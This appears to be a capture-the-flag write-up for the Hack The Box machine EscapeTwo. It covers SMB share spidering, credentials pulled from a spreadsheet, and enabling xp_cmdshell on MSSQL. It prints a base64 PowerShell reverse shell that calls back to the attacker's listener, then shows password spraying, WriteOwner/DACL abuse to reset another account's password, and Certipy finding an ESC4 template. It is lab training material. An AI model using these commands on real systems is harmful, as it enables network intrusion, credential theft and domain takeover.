SMB         10.129.91.215   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.91.215   445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SPIDER_PLUS 10.129.91.215   445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.91.215   445    DC01             [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.129.91.215   445    DC01             [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.91.215   445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.91.215   445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.91.215   445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.91.215   445    DC01             [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.129.91.215   445    DC01             [*] Enumerated shares
SMB         10.129.91.215   445    DC01             Share           Permissions     Remark
SMB         10.129.91.215   445    DC01             -----           -----------     ------
SMB         10.129.91.215   445    DC01             Accounting Department READ            
SMB         10.129.91.215   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.91.215   445    DC01             C$                              Default share
SMB         10.129.91.215   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.91.215   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.91.215   445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.91.215   445    DC01             Users           READ
SPIDER_PLUS 10.129.91.215   445    DC01             [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.129.91.215.json".
SPIDER_PLUS 10.129.91.215   445    DC01             [*] SMB Shares:           7 (Accounting Department, ADMIN$, C$, IPC$, NETLOGON, SYSVOL, Users)
SPIDER_PLUS 10.129.91.215   445    DC01             [*] SMB Readable Shares:  5 (Accounting Department, IPC$, NETLOGON, SYSVOL, Users)
SPIDER_PLUS 10.129.91.215   445    DC01             [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.91.215   445    DC01             [*] Total folders found:  46
SPIDER_PLUS 10.129.91.215   445    DC01             [*] Total files found:    31
SPIDER_PLUS 10.129.91.215   445    DC01             [*] Files filtered:       1
SPIDER_PLUS 10.129.91.215   445    DC01             [*] File size average:    5.44 KB
SPIDER_PLUS 10.129.91.215   445    DC01             [*] File size min:        23 B
SPIDER_PLUS 10.129.91.215   445    DC01             [*] File size max:        115.18 KB
SPIDER_PLUS 10.129.91.215   445    DC01             [*] File unique exts:     7 (.pol, .cmtx, .xml, .lnk, .ini, .inf, .xlsx)
SPIDER_PLUS 10.129.91.215   445    DC01             [*] Downloads successful: 30
SPIDER_PLUS 10.129.91.215   445    DC01             [+] All files processed successfully.
```

### Investigating Downloaded Files

We had issues with the `encoding` in combination with the use of `LibreOffice` and `ethicxz` came up with an `online document viewer`.

- [https://jumpshare.com/viewer/xlsx](https://jumpshare.com/viewer/xlsx)

We uploaded both `.xlsx` files to it and the `accounts.xslx` file contained credentials on which we created a `password list` out of it.



| Username | Password         |
| -------- | ---------------- |
| angela   | 0fwz7Q4mSpurIt99 |
| oscar    | 86LxLBMgEWaKUnBG |
| kevin    | Md9Wlq1E5bZnVDVo |
| sa       | MSSQLP@ssw0rd!   |

### Microsoft SQL Server

We used the newly found `username` and `password` of `sa` to connect to the `Microsoft SQL Server`.

```c
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient sa@10.129.91.215
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

Since we already logged in as user `sa` we enable the `xp_cmdshell` to achieve `code execution` through `MSSQL`.

- [https://github.com/0xsyr0/OSCP?tab=readme-ov-file#xp_cmdshell](https://github.com/0xsyr0/OSCP?tab=readme-ov-file#xp_cmdshell)

```c
SQL (sa  dbo@master)> EXECUTE AS LOGIN = 'sa';
SQL (sa  dbo@master)> EXEC sp_configure 'Show Advanced Options', 1;
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE;
SQL (sa  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE;
SQL (sa  dbo@master)> EXEC xp_cmdshell 'whoami';
output           
--------------   
sequel\sql_svc   

NULL
```

To gain `foothold` we grabbed a `Base64` encoded `reverse shell payload` from `revshells.com` and executed it using `xp_cmdshell`.

- [https://www.revshells.com/](https://www.revshells.com/)

```c
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAzADIAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

```c
SQL (sa  dbo@master)> EXEC xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAzADIAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA'
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.132] from (UNKNOWN) [10.129.91.215] 54425

PS C:\Windows\system32>
```

## Enumeration

A basic check on our `privileges` lead us to manual enumeration of the system.

```c
PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name      SID                                         
============== ============================================
sequel\sql_svc S-1-5-21-548670397-972687484-3496335370-1122


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                                     
========================================== ================ =============================================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                                    Mandatory group, Enabled by default, Enabled group             
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                                    Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group             
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group             
NT SERVICE\MSSQL$SQLEXPRESS                Well-known group S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133 Enabled by default, Enabled group, Group owner                 
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1                                                        Mandatory group, Enabled by default, Enabled group             
SEQUEL\SQLServer2005SQLBrowserUser$DC01    Alias            S-1-5-21-548670397-972687484-3496335370-1128                    Mandatory group, Enabled by default, Enabled group, Local Group
SEQUEL\SQLRUserGroupSQLEXPRESS             Alias            S-1-5-21-548670397-972687484-3496335370-1129                    Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Within the `Microsoft SQL Server` folder on `C:\` we found a new `password` inside the `sql-Configuration.INI` file.

```c
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

| Password         |
| ---------------- |
| WqSZAF6CysDQbGb3 |

## Privilege Escalation to ryan

### Password Spraying

We added the `password` to our `password list` and started spraying it using the at the start of the box created `list of usernames`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/EscapeTwo/files]
└─$ cat passwords.txt 
KxEPkKe6R8su
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
WqSZAF6CysDQbGb3
```

Luckily the password was `re-used` on the user `ryan` which gave us `privilege escalation` and access to the `user.txt`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/EscapeTwo/files]
└─$ netexec ldap 10.129.91.215 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.129.91.215   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Administrator:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Guest:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\krbtgt:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\DC01$:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\michael:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ryan:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\oscar:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\sql_svc:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ca_svc:KxEPkKe6R8su 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Administrator:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Guest:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\krbtgt:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\DC01$:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\michael:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ryan:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\sql_svc:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ca_svc:0fwz7Q4mSpurIt99 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Administrator:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Guest:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\krbtgt:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\DC01$:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\michael:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ryan:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\sql_svc:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ca_svc:86LxLBMgEWaKUnBG 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Administrator:Md9Wlq1E5bZnVDVo 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Guest:Md9Wlq1E5bZnVDVo 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\krbtgt:Md9Wlq1E5bZnVDVo 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\DC01$:Md9Wlq1E5bZnVDVo 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\michael:Md9Wlq1E5bZnVDVo 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ryan:Md9Wlq1E5bZnVDVo 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\sql_svc:Md9Wlq1E5bZnVDVo 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ca_svc:Md9Wlq1E5bZnVDVo 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Administrator:MSSQLP@ssw0rd! 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Guest:MSSQLP@ssw0rd! 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\krbtgt:MSSQLP@ssw0rd! 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\DC01$:MSSQLP@ssw0rd! 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\michael:MSSQLP@ssw0rd! 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ryan:MSSQLP@ssw0rd! 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\sql_svc:MSSQLP@ssw0rd! 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ca_svc:MSSQLP@ssw0rd! 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\Guest:WqSZAF6CysDQbGb3 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\DC01$:WqSZAF6CysDQbGb3 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3 
LDAP        10.129.91.215   389    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
LDAP        10.129.91.215   389    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3 
LDAP        10.129.91.215   389    DC01             [-] sequel.htb\ca_svc:WqSZAF6CysDQbGb3
```

| Username | Password         |
| -------- | ---------------- |
| ryan     | WqSZAF6CysDQbGb3 |

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.91.215 -u ryan -p WqSZAF6CysDQbGb3    
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents>
```

## user.txt

```c
*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
3eb08c5b1095941592a5d9568b1e710c
```

## Pivoting

A quick `pivot` on `ryan` brought us back to `Bloodhound` since we didn't found any quick win.

```c
*Evil-WinRM* PS C:\Users\ryan\Desktop> whoami /all

USER INFORMATION
----------------

User Name   SID
=========== ============================================
sequel\ryan S-1-5-21-548670397-972687484-3496335370-1114


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
SEQUEL\Management Department                Group            S-1-5-21-548670397-972687484-3496335370-1602 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

The user was member of three groups.



A closer look on the groups showed us the user `ca_svc` which indicated the availability of a `certificate authority`. The user `ryan` had `WriteOwner` permissions on this user.



## Privilege Escalation to ca_svc

### WriteOwner Abuse

We went for the abuse of the `WriteOwner` permissions of `ryan` on `ca_svc` to give us the ability to `change the users password` and so `escalate our privileges` even further.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/EscapeTwo/files]
└─$ impacket-owneredit -k 'sequel.htb/ryan:WqSZAF6CysDQbGb3' -dc-ip 10.129.91.215 -action write -new-owner 'ryan' -target 'ca_svc' -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[-] CCache file is not found. Skipping...
[+] The specified path is not correct or the KRB5CCNAME environment variable is not defined
[+] Trying to connect to KDC at 10.129.91.215:88
[+] Trying to connect to KDC at 10.129.91.215:88
[+] Trying to connect to KDC at 10.129.91.215:88
/usr/share/doc/python3-impacket/examples/owneredit.py:407: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
[+] Initializing domainDumper()
[+] Target principal found in LDAP (ca_svc)
[+] Found new owner SID: S-1-5-21-548670397-972687484-3496335370-1114
[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[+] Attempt to modify the OwnerSid
[*] OwnerSid modified successfully!
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/EscapeTwo/files]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target-dn 'CN=CERTIFICATION AUTHORITY,CN=USERS,DC=SEQUEL,DC=HTB' 'sequel.htb/ryan:WqSZAF6CysDQbGb3'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250111-212947.bak
[*] DACL modified successfully!
```

```c
┌──(kali㉿kali)-[~]
└─$ pth-net rpc password 'ca_svc' 'WqSZAF6CysDQbGb3' -U 'sequel.htb'/'ryan'%'WqSZAF6CysDQbGb3' -S '10.129.91.215'
```

## Privilege Escalation to System

### Active Directory Certificate Services (ADCS)

Now as user `ca_svc` we checked first if our assumption was right and used the `adcs` module of `NetExec` to verify the presence of a `certificate authority`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/EscapeTwo/files]
└─$ netexec ldap 10.129.91.215 -u 'rose' -p 'KxEPkKe6R8su' -M adcs
SMB         10.129.91.215   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.129.91.215   389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
ADCS        10.129.91.215   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.91.215   389    DC01             Found PKI Enrollment Server: DC01.sequel.htb
ADCS        10.129.91.215   389    DC01             Found CN: sequel-DC01-CA
```

Then we searched for `vulnerable configurations` and found a `template` vulnerable to `ESC4` which is `Vulnerable Certificate Template Access Control`.

- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#active-directory-certificate-services-ad-cs](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#active-directory-certificate-services-ad-cs)
- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#ESC4-Vulnerable-Certificate-Template-Access-Control](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#ESC4-Vulnerable-Certificate-Template-Access-Control)

```c
┌──(kali㉿kali)-[~]
└─$ certipy-ad find -username ca_svc@sequel -password 'WqSZAF6CysDQbGb3' -dc-ip 10.129.91.215 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```

